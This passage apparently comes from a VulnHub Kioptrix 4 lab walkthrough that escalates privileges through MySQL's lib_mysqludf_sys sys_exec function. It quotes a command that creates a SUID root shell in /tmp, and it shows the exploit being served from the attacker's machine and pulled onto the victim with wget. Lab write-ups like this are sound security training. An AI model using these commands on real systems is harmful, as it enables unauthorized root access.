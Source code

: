 From the script found above, it seems like the exploit is trying to create a SUID binary:

```python
os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
```

### SimpleHTTPServer

Next the exploit needs to be transfered to the vicitms machine.
Serving exploit using Python’s SimpleHTTP server:
```bash
root@kali:~/vulnhub/kioptrix4# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.211.129 - - [04/Sep/2019 13:08:28] "GET /46249.py HTTP/1.0" 200 –
```

Downloading the exploit to victim’s machine:
```bash
robert@Kioptrix4:/tmp$ wget 192.168.211.130:8000/46249.py
--22:30:57--  http://192.168.211.130:8000/46249.py
           => `46249.py'
Connecting to 192.168.211.130:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31,215 (30K) [text/plain]

100%[==========================>] 31,215        --.--K/s             

22:30:57 (146.56 MB/s) - `46249.py' saved [31215/31215]
```

Privilege Escalation
--------------------

Running the exploit.
```bash
robert\@Kioptrix4:/tmp\$ python 46249.py

Traceback (most recent call last):

File "46249.py", line 35, in \<module\>

import argparse

ImportError: No module named argparse
```

Above python script did not work due to argparse module not being present on the
system, next a manual attempt will be performed.

After reading about the vulnerability in the article below, it seems like
lib_mysqludf_sys needs to be present in order to exploit the vulnerability:

<https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html>

Searching for the library:
```bash
robert@Kioptrix4:/tmp$ find / -name lib_mysqludf_sys* 2>/dev/null
/usr/lib/lib_mysqludf_sys.so
```
